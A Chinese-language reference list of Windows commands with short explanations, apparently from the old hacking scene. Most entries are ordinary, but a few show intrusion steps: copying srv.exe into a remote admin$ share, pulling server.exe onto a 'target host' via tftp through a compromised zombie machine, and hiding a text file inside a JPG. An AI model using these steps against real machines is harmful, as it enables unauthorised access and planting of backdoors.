 
　　telnet ip 端口 远和登陆服务器,默认端口为23
 

　　open ip 连接到IP（属telnet登陆后的命令）
 

　　telnet 在本机上直接键入telnet 将进入本机的telnet
 

　　copy 路径文件名1　路径文件名2 /y 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件
 

　　copy c:srv.exe ipadmin$ 复制本地c:srv.exe到对方的admin下
 

　　copy 1st.jpg/b+2st.txt/a 3st.jpg 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件
 

　　copy ipadmin$svv.exe c: 或:copyipadmin$*.* 复制对方admini$共享下的srv.exe文件（所有文件）至本地C：
 

　　xcopy 要复制的文件或目录树　目标地址目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件
 

　　用参数/e才可连目录下的子目录一起复制到目标地址下。
 

　　tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exec:server.exe 登陆后，将“IP”的server.exe下载到目标主机c:server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送
 

　　tftp -i 对方IP　put c:server.exe 登陆后，上传本地c:server.exe至主机
 

　　ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)
 

　　route print 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface
 

　　arp 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息
 

　　start 程序名或命令 /max 或/min 新开一个新窗口并最大化（最小化）运行某程序或命令
 

　　mem 查看cpu使用情况
 

　　attrib 文件名(目录名) 查看某文件（目录）的属性
 

　　attrib 文件名 -A -R -S -H 或 +A +R +S +H 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用+则是添加为某属性
 

　　dir 查看文件，参数：/Q显示文件及目录属系统哪个用户，/T:C显示文件创建时间，/T:A显示文件上次被访问时间，/T:W上次被修改时间
 

　　date /t 、 time /t 使用此参数即“DATE/T”、“TIME/T”将只显示当前日期和时间，而不必输入新日期和时间
 

　　set 指定环境变量名称=要指派给变量的字符 设置环境变量
 

　　set 显示当前所有的环境变量
 

　　set p(或其它字符) 显示出当前以字符p(或其它字符)开头的所有环境变量
 
